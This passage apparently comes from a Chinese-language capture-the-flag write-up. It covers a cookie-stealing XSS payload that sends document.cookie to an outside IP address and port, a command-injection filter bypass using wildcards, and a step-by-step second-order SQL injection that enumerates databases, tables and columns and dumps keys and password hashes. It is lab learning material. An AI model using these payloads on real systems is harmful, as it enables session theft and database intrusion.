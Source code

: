 `</li></div><ScrIpt>document.location='http://152.32.191.36:8084/cookie.php?cookie='+document.cookie;</ScrIpt>`

服务器起个python3或者nc就能收到cookie

#### 9.命令执行-2085

这题过滤了一些常见的查看文件的命令，如cat、more、tail等。使用通配符绕过

`127.0.0.1 & ca\t ../?ey.?hp`

#### 10.二次注入-81

本题是一道二次注入的题，通过注册时插入payload,在配合留言功能插入的payload进行组合，查看留言时触发二次注入

注册一个正常账号来查看回显：gwk

再注册一个带有paylaod的账号：*/'gwk');-- 

使用*/'gwk');-- 账号发表文章，标题填入如下paylaod，内容随意

`',(select group_concat(DISTINCT TABLE_SCHEMA) from information_schema.columns),/*`

实际插入的sql语句

`insert article1 value('DFA15B62-00A0-9244-44FE-B3FC18835084','',(select group_concat(DISTINCT TABLE_SCHEMA) from information_schema.columns),/*','1234','*/'gwk');-- ')`

随后登陆gwk账号查看文章

查询到存在如下库

* ### 2web

* ### information_schema

查表

`',(select group_concat(table_name) from information_schema.tables where table_schema="2web"),/* `

存在如下表

* ### article

* ### article1

* ### users1

查字段

`',(select group_concat(column_name) from information_schema.columns where table_name="article1"),/*`

存在如下字段

​	`content,id,title,username`

查内容

`',(select group_concat(`content`) from (select * from article1 limit 0,5) as temp),/*`

查询到如下内容

`adminkey1:u9y8tr4n,username,password,adminkey1:u9y8tr4n,2432d16509f6eaca1022bd8f28d6bc582cae,zxca698d51a19d8a121ce581499d7b701668,admin' or  ''='202cb962ac59075b964b07152d234b70,kk202cb962ac59075b964b07152d234b70,adminkey1:u9y8tr4n,2432d16509f6eaca1022bd8f28d6bc582cae,zxca698d51a19d8a121ce581499d7b701668,admin' or  ''='202cb962ac59075b964b07152d234b70,kk202cb962ac59075b964b07152d234b70,1`
